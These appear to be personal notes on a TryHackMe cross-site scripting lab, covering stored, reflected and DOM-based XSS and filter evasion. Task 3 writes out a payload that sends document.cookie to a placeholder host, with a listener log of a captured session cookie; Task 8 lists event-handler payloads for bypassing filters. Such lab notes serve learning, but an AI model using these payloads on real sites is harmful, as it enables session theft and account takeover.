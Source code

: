 # Room
https://tryhackme.com/room/xss

# Task 1 - Intro
XSS = Cross-site Scripting.  A vulnerability usually found in web applications that allows an attacker to execute malicious scripts.  Unsanitized user input is the common attack vector.  XSS is possible in Javascript, VBScript, Flash, and CSS.
* Two main categories
    * Persistent/Stored
    * Reflected
* Cooking Stealing - a cookie that is stolen from an authenticated session
* Keylogging - a record of your keystrokes sent to an attacker
* Webcam Snapshot - taking pictures from a compromised webcam
* Phishing - insertion of fake logins or redirection to clone sites that steal your info
* Port Scanning - using stored XSS to port scan an internal network

# Task 2 - Deploy
Deploy test machine

# Task 3 - Stored XSS
The most dangerous type of XSS.
1. Attacker inserts malicious payload into website database
2. For every visit to the website the malicious script is activated
3. The data is gathered and sent to the attacker which could be the victim's cookie or other data

* Example payload
    ```
    <script>alert(1)</script>
    ```
* Display cookie
    ```
    <script>alert(document.cookie)</script>
    ```
* Change span text
    ```
    </script>document.getElementById("span").textContent="text";</script>
    ```
* Grab cookies
    ```
    <script>window.location='http://a.b.c.d/?cookie='+document.cookie</script>

    sudo python3 -m http.server 80

    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    a.b.c.d - - [03/Feb/2021 19:02:30] "GET /?cookie=connect.sid=s%3AsDYS6z6eLmN-HwTWN6WixeJnn-zpCUPL.%2Fjg%2BcVRIrTYJZM9aR7sO075eA0aFlqk8OdIzdK4aL3s HTTP/1.1" 200 -
    ```

# Task 4 - Reflected XSS
Reflected XSS has the payload being a part of the victim's request to the website.
1. Attacker sends malicious link to victim
2. Victim clicks link and is taken to vulnerable website
3. Link containing attacker's script executes
4. Data that attacker's script gathers is sent to attacker which could be the victim's cookie or other data
* Example payload
    ```
    http://example.com/search?keyword=<script>...</script>
    ```
* Reflect Hello
    ```
    <script>alert("Hello")</script>
    ```
* Reflect IP address
    ```
    <script>alert(window.location.hostname)</script>
    ```

# Task 5 - DOM-Based XSS
DOM stands for Document Object Model and is the programming interface for HTML and XML.
* DOM reference
    * https://www.w3schools.com/js/js_htmldom.asp
* DOM based XSS is only executed when the vulnerable JavaScript code is loaded or interacted with
* XSS reference
    * https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

# Task 6 - XSS for IP and Port Scanning
Port scanning is available via XSS.
* Reference
    * https://github.com/aabeling/portscan

# Task 7 - XSS Keylogger
Listening for key strokes is also possible.

# Task 8 - Filter Evasion
Filters are put into place as an attempt to block malicious payloads.
* Bypass script tags
    ```
    <iframe src=# onmouseover="alert('Hello')"></iframe>
    ```
* Bypass alert string
    ```
    <iframe src=# onmouseover="prompt('Hello')"></iframe>
    ```
* Bypass hello
    ```
    <img src=# onmouseover="alert('HelloHello')"></img>
    ```
* Bypass most on events
    ```
    <img src=# onclick="alert('HelloHello')"></img>
    ```
* References
    * https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    * https://owasp.org/www-community/xss-filter-evasion-cheatsheet
    * https://developer.mozilla.org/en-US/docs/Web/API/GlobalEventHandlers/onerror

